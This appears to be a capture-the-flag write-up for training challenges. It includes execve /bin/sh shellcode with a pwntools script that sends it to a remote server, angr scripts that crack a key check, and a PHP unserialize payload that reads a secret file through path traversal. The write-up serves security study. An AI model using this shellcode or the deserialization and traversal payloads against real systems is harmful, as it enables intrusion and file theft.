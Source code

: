 ## backtoshell
Really easy shellcode challenge, where we have a read of 0x200 bytes and after that every register is set to 0, then the code jumps to the buffer in which our input has been stored and executes it.

The main issue (easily bypassable) is the zeroing of the registers, also rsp, so we can't use the stack in our shellcode.

After trying some fancy reads, I realized that one of the simplest execve shellcode would be enough, the only problem was where to store the /bin/sh string. Without making it complex, if we put this string after the system call, we dont' care about possible errors, because we will already have our shell.

So let's write some assembly, knowing that in rax we will initially have the starting address of the buffer:

```assembly
mov rdi, rax    ; save the starting address for later
mov rax, 0x3b   ; id of the execve syscall
add rdi, 22     ; offset where /bin/sh will be (count shellcode bytes)
xor rsi, rsi    ; put rsi to 0
xor rdx, rdx    ; put rdx to 0
syscall         ; actual call
```
This is the script:

```python
from pwn import *

context.terminal = ['terminator', '-e']

r = remote("training.jinblack.it", 3001)

#input("wait")

execve = b"\x48\x89\xC7\x48\xC7\xC0\x3B\x00\x00\x00\x48\x83\xC7\x16\x48\x31\xF6\x48\x31\xD2\x0F\x05/bin/sh\x00"
#we can count 22 bytes before /bin/sh

r.send(execve)
r.interactive()
```

And this is the flag: **flag{Congratulation_you_got_aa_working_shellcode_!}**

## keycheck_baby
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with Ghidra, and with a simple Python script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

First script (classic angr):
```python
import angr
import claripy

FLAG_LEN = 31
STDIN_FD = 0

base_addr = 0x100000 # To match addresses to Ghidra , main_opts={'base_addr': base_addr}

proj = angr.Project("./keycheck_baby", main_opts={'base_addr': base_addr}) 

flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(FLAG_LEN)]
flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')]) # Add \n for scanf() to accept the input

state = proj.factory.full_init_state(
        args=['./keycheck_baby'],
        add_options=angr.options.unicorn,
        stdin=flag,
)

# Add constraints that all characters are printable

for k in flag_chars:
    state.solver.add(k >= ord('!'))
    state.solver.add(k <= ord('~'))


simgr = proj.factory.simulation_manager(state)
find_addr  = 0x1013f8 # SUCCESS 101471 10136a 1013f8
avoid_addr = 0x101487 # FAILURE 102058 101487 
simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(simgr.found) > 0):
    for found in simgr.found:
        print(found.posix.dumps(STDIN_FD))
```

Second script (super cool):
```python
import claripy
import angr

p=angr.Project('./keycheck_baby')

simfile = angr.SimPackets('input')

st = p.factory.entry_state(stdin=simfile);
sm = p.factory.simulation_manager(st)
sm.explore(find=lambda s: b"Your input looks" in s.posix.dumps(1))
for s in sm.found:
    print(s.posix.dumps(0))
```
## lolshop
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in /secret/flag.txt file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in State.php called restore($token).

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in Products.php.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the toDict() function of a product
2. we search for every call the restore() method in the source code
3. after finding the right restore() call, we try to craft a malicius payload

We can notice that in the cart.php page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the restore(), then we call the toDict() on the unserialized state: COOL

What if we try to unserialize a Product object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the $state->toDict() instruction will be executed, but now the method refers to Product.toDict(), so the getPicture() will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:

![response](./lolshop.png)

We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}**

## positiveleak
